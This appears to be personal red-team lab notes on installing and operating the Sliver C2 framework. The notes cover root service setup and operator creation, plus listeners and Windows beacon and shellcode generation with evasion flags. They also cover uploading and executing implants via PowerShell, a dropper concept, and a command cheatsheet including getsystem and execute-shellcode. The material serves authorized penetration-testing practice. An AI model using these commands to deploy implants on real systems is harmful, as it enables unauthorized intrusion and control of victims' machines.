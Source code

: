 
## Dealing with Errors
I ran into a lot. Common issues included:

Outdated sliver binaries
Pre-existing ~/.sliver directory
No mingw compiler
## Installing Sliver

```bash

# Remove existing sliver stuff, run as sudo
rm /bin/sliver
rm /bin/sliver-server
rm -rf /root/.sliver
rm -rf ~/.sliver

# Below is the easy way
####### IF YOU DO IT BELOW, BEWARE OF ERRORS WITH OUTDATED VERSIONS DUE TO HARDCODED VERSION IN WGET URL ##################
wget -O /bin/sliver-server https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-server_linux 
chmod 755 /bin/sliver-server

wget -O /bin/sliver https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-client_linux
chmod 755 /bin/sliver

# Windows C Compiler
sudo apt install mingw-w64

# Run as normal
# Unpack assets, as user
sliver-server unpack --force




```
We can make it run on startup by making a service
```bash
vi /etc/systemd/system/sliver.service
# Paste below file
```

```
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=on-failure
RestartSec=3
User=root
ExecStart=/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```
Then
```bash
chmod 600 /etc/systemd/system/sliver.service
systemctl enable sliver && systemctl start sliver

# If you run into errors, it might be because sliver files already exist on your system, in /home/kali/.sliver, /root/.sliver, and ~/.sliver

# Check that the server is up
netstat -antopul


```

## Adding a New Operator
```bash
cd ~
sliver-server
# Review command
[server] sliver > help new-operator
# Listen on specific IP
[server] sliver > new-operator -n attacker -l tun0

# More generous allow

[server] sliver > new-operator -n attacker -l 0.0.0.0
# Enable multiplayer
[server] sliver > multiplayer

# New session
# Import the attacker config
sliver import attacker_0.0.0.0.cfg

# And boot sliver client
sliver


```

## Armory
Sliver's armory is a plugin system
```bash
# Get help
sliver > armory
# Install all
sliver > armory install all
```


## Generating Beacons
There's a lot of factors. The below generates a beacon that is called 'http_beacon', is a windows executable, listens on 127.0.0.1 (default port 80)
```bash
sliver > help generate beacon 
sliver > generate beacon --http 10.10.110.10 --name httpbeacon80 --os windows --evasion --seconds 5 --jitter 5

# One with a low delay/jitter
sliver > 
```

## Setting up a Listener
```bash
# Setup a listener for beacons on port 80
sliver > http --lport 80

# List active listeners
sliver > jobs

# Kill job 2, to free up listener on that port
sliver > kill -k 2 

```

## Using the Beacon

```bash
# List beacons
sliver > beacons
# Load an active beacon
sliver > use c44362b7

# List common commands
sliver > help

# Upload a file, note the double slashes
upload /home/kali/work/prolab/ligolo/ligolo-windows-agent.exe C:\\ProgramData\\ligolo-windows-agent.exe

# Upload a beacon
upload /home/kali/work/prolab/sliver/httpbeacon80fast.exe C:\\ProgramData\\fast.exe

# Execute that Beacon
sliver > execute powershell.exe -Command "Start-Process C:\\ProgramData\\fast2.exe"
# Run a command

# Spawn an interactive session

```

## Implants
Implants are basically a way of communicating. There are two types of implants: beacons (operate in intervals), and sessions (more immediate back and forth)
## Shellcode
Shellcode can be used to execute code and bypass AV's. Shellcode is usually executed by a droper.

Conceptually, the shellcode is hosted somewhere (usually your own server, and it's also usually obfuscated shellcode)

And the dropper is a simple program that accesses that hosted shellcode, and executes it.

```bash
sliver > generate beacon --arch amd64 --os windows --http 10.10.15.250:80 --format shellcode --evasion --timeout 300 --seconds 5 --jitter 1


```


## Cheatsheet

| **Command**                                                               | **Description**                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                                    | Displays the commands and their descriptions                 |
| `http -L <Local IP> -l <Port>`                                            | Set up HTTP listener                                         |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 profile                                      |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>`    | Set up Stager listener                                       |
| `generate --http <Local IP>:<Port> --os <OS>`                             | Generates a session implant                                  |
| `generate beacon --http <Local IP>:<Port> --os <OS>`                      | Generates a beacon implant                                   |
| `sessions`                                                                | Lists active/inactive sessions                               |
| `sessions -K`                                                             | Removes all sessions available or not                        |
| `sessions prune`                                                          | Removes unavailable sessions                                 |
| `sessions -k -i <session>`                                                | Removes the specified session                                |
| `beacons`                                                                 | Lists active/inactive beacons                                |
| `tasks`                                                                   | Lists the pending or completed tasks ran by the operator     |
| `getsystem`                                                               | Attempts to get a session as NT AUTHORITY\SYSTEM             |
| `interactive`                                                             | Tasks the beacon to spawn a session that becomes interactive |
| `cd`                                                                      | Change directory                                             |
| `ls`                                                                      | Lists the contents of the directory                          |
| `download <file/directory>`                                               | Downloads a file/directory                                   |
| `upload`                                                                  | Uploads a file                                               |
| `execute-assembly`                                                        | Executes a .NET assembly in a child process                  |
| `execute-shellcode`                                                       | Executes the specified shellcode in process                  |
| `multiplayer`                                                             | Enables multiplayer mode on the server                       |
| `armory install <alias/extension>`                                        | Installs the given alias/extension                           |
| `armory install all`                                                      | Installs all of the available aliases/extensions             |